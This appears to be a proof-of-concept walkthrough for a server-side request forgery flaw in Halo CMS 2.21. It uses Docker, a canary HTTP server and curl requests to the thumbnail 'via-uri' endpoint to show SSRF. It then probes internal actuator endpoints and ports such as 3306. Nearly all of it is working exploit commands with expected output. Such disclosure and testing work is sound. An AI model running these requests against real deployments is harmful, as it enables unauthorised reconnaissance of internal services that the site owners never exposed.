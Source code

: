 
### Manual Exploitation (Step-by-Step)

For manual testing without automated scripts, follow these commands:

#### Step 1: Start Halo CMS Instance

```bash
# Start Halo with Docker networking for testing
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21

# Wait for startup (check logs)
docker logs -f <container_id>
```

#### Step 2: Set Up Canary Server for SSRF Proof

```bash
# Terminal 1: Start canary server on port 8888
echo "SSRF_CANARY_HIT" > /tmp/canary.txt
python3 -m http.server 8888 --directory /tmp

# You should see: Serving HTTP on 0.0.0.0 port 8888...
```

#### Step 3: Test Basic SSRF (Definitive Proof)

```bash
# Terminal 2: Trigger SSRF to canary server
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://host.docker.internal:8888/canary.txt&size=s"

# Expected output:
# HTTP/1.1 302 Found
# Location: http://host.docker.internal:8888/canary.txt

# Check Terminal 1 - you should see:
# host.docker.internal - - [DATE] "GET /canary.txt HTTP/1.1" 200 -
```

#### Step 4: Internal Network Reconnaissance

```bash
# Test internal service access (Halo actuator endpoints)
curl -i "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8090/actuator/health&size=s"

# Expected: 302 redirect revealing internal endpoint accessibility
# HTTP/1.1 302 Found
# Location: http://127.0.0.1:8090/actuator/health

# Test other internal ports
curl -i "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:8080&size=s"
curl -i "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://127.0.0.1:3306&size=s"
```
